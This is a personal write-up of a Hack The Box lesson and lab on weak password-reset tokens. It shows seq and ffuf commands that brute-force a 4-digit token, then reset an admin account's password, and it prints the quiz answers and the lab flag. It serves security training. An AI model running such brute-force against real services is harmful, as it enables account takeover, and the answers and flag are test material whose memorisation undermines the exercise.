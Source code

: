 ```yaml
---
sticker: emoji//1faaa
---
```

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

---

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```bash
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```bash
smoothment@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:


```bash
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# Questions
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214152014.png)

The answers for the first three questions are:

```ad-note
1. `one-time reset token`
2. `-w`
3. `1000000`
```

Now, let's go to the web application:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214160759.png)

We got a login functionality, we can reset out password, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214160832.png)

As seen, we are redirected to `/reset.php`, the input is not properly sanitized, which means, we could send a password reset for other users, for example, let's send a password reset for `admin`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214161036.png)

If we try going to `/reset_password.php`, we get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214161111.png)

So, we need a token, we can try brute-forcing the token using the following, first, let's generate a sequence of tokens from `0000` to `9999`, which is the maximum length of 4 digits tokens:


```bash
seq -w 0 9999 > tokens.txt
```

Once we got our `tokens.txt` file, we can use ffuf:

```
ffuf -w tokens.txt -u "http://IP:PORT/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w ./tokens.txt -u "http://94.237.54.164:33815/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.54.164:33815/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

6583                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 3672ms]
```

Got our token:

```
6583
```

Now, let's visit the following URL:

```
http://IP:PORT/reset_password.php?token=6583
```

We'd see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214161805.png)

We are able to reset the password, let's simply do the following credentials:

```ad-note
`admin`:`password`
```

Now we can log in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214162106.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250214162128.png)

Flag is:

```
HTB{36da098385e641d54e1b2750721d816e}
```